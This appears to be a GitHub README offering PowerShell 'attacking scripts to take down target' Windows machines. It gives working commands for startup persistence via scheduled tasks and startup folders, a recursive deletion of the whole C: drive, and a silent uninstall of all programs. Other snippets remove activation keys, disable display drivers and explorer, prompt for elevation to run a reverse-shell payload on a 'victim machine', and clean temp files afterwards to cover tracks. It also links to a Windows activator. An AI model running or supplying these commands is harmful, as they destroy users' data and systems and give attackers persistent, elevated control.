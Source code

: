 # Here You can Find Attacking Script's to take down target

### ⚠️ Warning ⚠️
**Test The scripts in virtual Environments . Am not responsible if any error or damage occures to your main**

<br>
<h2>All Script's works in Latest Version of windows <br>
 <h4>Note : Some scripts and codes may requires Admin! while working on with kernel Mode ! </h4>

<br>

<b>EFFECTIVE AND EASIEST WAY TO START YOUR PROGRAMS WHEN SYSTEM STARTUP <a href="#9--run-your-script-at-windows-startup-" > Down </a>
</b>

## 1. Save process to start specfic script when windows Boot up [OLDER VERSIONS]

```
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "C:\Path\To\Your\Script.ps1";
$trigger = New-ScheduledTaskTrigger -AtStartup;
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "My Startup Task" -Description "Runs my script at startup" -RunLevel Highest -Force
``` 

It should contain payload at same executable computer ! 

## 1(a). The payload was saved Via variables ! [OLDER VERSIONS]

```
$payload = @";
Start-Process powershell.exe -ArgumentList "Payload-Script Here";
"@ ;

$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Command $payload";
$trigger = New-ScheduledTaskTrigger -AtStartup;
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "My Startup Task" -Description "Runs my script at startup" -RunLevel Highest -Force
```

## 1(c) . New Method 

```
New-Item -ItemType File -Path "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\myscript.lnk" -Value "C:\path\to\my\script.ps1"

```
Replace myscript with the name you want to give to the shortcut, and C:\path\to\my\script.ps1 with the path to your script.

## 2. Format or Delete C:// Drive. (Win 10,11)

`Get-ChildItem -Path C:\ -Recurse -Force | Remove-Item -Recurse -Force`

It Requirds Admin . Dont even exe this  script on ur system !

## 3. Uninstall All programs in Windows PC
```
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, UninstallString | Where-Object { $_.UninstallString -ne $null } | ForEach-Object { Start-Process cmd -ArgumentList "/C $($_.UninstallString) /quiet /norestart" -Wait }
```
## 4. Remove Windows Activation Keys in Seconds !

Check Weather Key is Activated : `slmgr.vbs /upk`<br>

To Remove Key : `slmgr.vbs /dlv`

Tips : To Reactivate the Windows . I Have Created Powershell script which might be helpful to you if you are a os hopper . <a href="https://github.com/Whitecat18/windows-10-Activator.git" > Windows 10 Activator </a> 

## 5 . Get an Reverse Shell As Admin (Luck):

```
start-process powershell.exe -ArgumentList "<Payload script Here>" -Verb RunAs
```
This will Run the payload in victim machine . once the Victim gives yes . The payload will Enter and will close , but we got an Rev, shell !
 
## 6. Disable explorer.exe temp

```
Get-Process explorer | Stop-Process -Force
```

## 7 . Remove OEM , RETAIL and Volume Keys From Windows . 

Click here <a href="https://github.com/Whitecat18/Ps-script-for-Hackers-and-Pentesters/blob/main/scripts/win-key-killer.ps1" > win-keykiller.ps1 </a> to download ps1 script . this Script removes All Types of Windows Keys. <br><br>
To Activate Windows Keys Again . Use My Windows Activator that activates Windows in Minutes . <a href="https://github.com/Whitecat18/windows-10-Activator.git" > Windows Activator </a>

## 8 . Disable Display Driver using Powershell

```
$displayDevices = Get-PnpDevice | Where-Object {$_.Class -eq 'Display' -and $_.Status -eq 'OK'}

foreach ($device in $displayDevices) {
    Disable-PnpDevice -InstanceId $device.InstanceId -Confirm:$false

    $disabledDevice = Get-PnpDevice -InstanceId $device.InstanceId
    if ($disabledDevice.Status -eq 'OK') {
        Write-Host "Failed to disable device: $($device.Description)"
    } else {
        Write-Host "Device disabled successfully: $($device.Description)"
    }
}
```
**RUN THE SCRIPT AS ADMINISTRATOR**

## 9 . Run your Script at Windows Startup !

```
@echo off
powershell.exe "C:\Windows\Temp\ps.ps1"
```

Save this file with extension .bat and save the Files in any of these 2 Paths .  

* For all users: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`
* For the current user: `C:\Users\<YOUR-USer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

<b>Dont Forget to change the path ! </b>

## 10 . Delete Your Temp Path 

While you are testing some tools , running some scripts etc . It is important to del all the temp files before leaving the Victim Machine 

Script -> <b><a href="https://github.com/Whitecat18/Powershell-Scripts-for-Hackers-and-Pentesters/blob/main/scripts/del_temp.ps1" > Link </a></b>

## 11 . Check If the Shell is Admin

### Method 1
```
$isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.
WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrato
r); echo ------; $isAdmin ; echo ------
```
The above command says True If the Executed shell is Admin . Else it will display as False

### Method 2

```
function Check-IsElevated { $id = [System.Security.Principal.WindowsIdentity]::GetCurrent(); $p = New-Object System.Security.Principal.WindowsPrincipal($id); if ($p.IsInRole([System.Security.Principal.WindowsBuiltInRole]::Administrator)) { Write-Output $true } else { Write-Output $false } }; if (-not(Check-IsElevated)) { Write-Host "Shell : Not Administrator" } else { write-host "Shell : Administrator" }
```
The Above script is similar but it will display as Administrator if its Exec at Admin Shell . Else  Not Administrator .  
